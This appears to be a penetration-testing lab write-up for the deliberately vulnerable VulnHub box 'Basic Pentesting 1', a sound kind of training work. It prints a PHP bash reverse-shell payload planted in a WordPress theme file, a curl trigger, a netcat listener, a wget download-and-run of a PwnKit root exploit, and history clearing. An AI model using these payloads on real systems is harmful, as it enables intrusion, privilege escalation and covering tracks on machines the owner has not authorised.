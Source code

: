 # Target: VulnHub – Basic Pentesting 1

## Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  

---

### Objectives
- Regain WordPress admin access
- Inject PHP reverse shell via theme
- Get reverse shell to Kali
- Upgrade to interactive TTY
- Enumerate for privilege escalation vectors
- Exploit PwnKit (CVE-2021-4034) to gain root
- Clean up artifacts

---

## Service Enumeration

**Ports Open:**  
- 22/tcp – OpenSSH 7.2p2  
- 80/tcp – Apache httpd 2.4.18  
- 139/tcp, 445/tcp – Samba smbd 3.X - 4.X  

**Host Details:**  
- OS: Ubuntu 16.04.3 LTS  
- Kernel: 4.10.0-28-generic  

**Web Findings:**  
- `/robots.txt` exposed  
- WordPress login interface at `/wp-login.php`  
- Default `twentyseventeen` theme installed

**Local User Identified:** `marlinspike`

---

## Methodologies

- WordPress authentication brute-force bypass  
- PHP reverse shell injection into `404.php`  
- Triggered web payload to connect back to listener  
- Upgraded shell to interactive TTY with Python  
- Privilege escalation via static PwnKit binary  

---

## Initial Access

**Weak Point:** WordPress login  
**Method:** Direct login with known creds  

**Payload Used:**  
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>
```

**Delivery:** Uploaded via WordPress theme editor (404.php)  
**Trigger:**  
```bash
curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"
```

**Listener Setup on Kali:**  
```bash
nc -lvnp 4444
```

**Result:** Shell gained as `www-data`

---

## Privilege Escalation

**Exploit Used:** CVE-2021-4034 (PwnKit)  
**Vector:** SUID binary `/usr/bin/pkexec`  

**Approach:**  
- Static binary hosted via Python web server  
- Remote download and execution

**Steps:**  
_On Kali:_  
```bash
python3 -m http.server 8000
```

_On Target:_  
```bash
cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit
```

**Result:**  
```bash
root@vtcsec:/tmp# whoami
root
```

---

## House Cleaning

- `rm /tmp/PwnKit`  
- `history -c`  
- No persistence or root flag pulled (purpose: shell lifecycle practice)

---

## Post-Exploitation

**Tools Utilized**
* nmap, gobuster, wpscan  
* curl, netcat, wget, python3  
* Metasploit (ProFTPD tested)  
* Static precompiled PwnKit binary

---

## Key Takeaways

* Always check for exposed WordPress login surfaces (`/wp-login.php`, XML-RPC)  
* Curl-triggered PHP payloads are reliable for post-auth web shells  
* Static exploit binaries prevent headaches from GLIBC or compiler issues  
* Interactive shell upgrades require `stty raw -echo` and TTY awareness  
* Post-access enumeration is more efficient than brute forcing — privilege escalation often hides in default configs

---

### Status: COMPLETED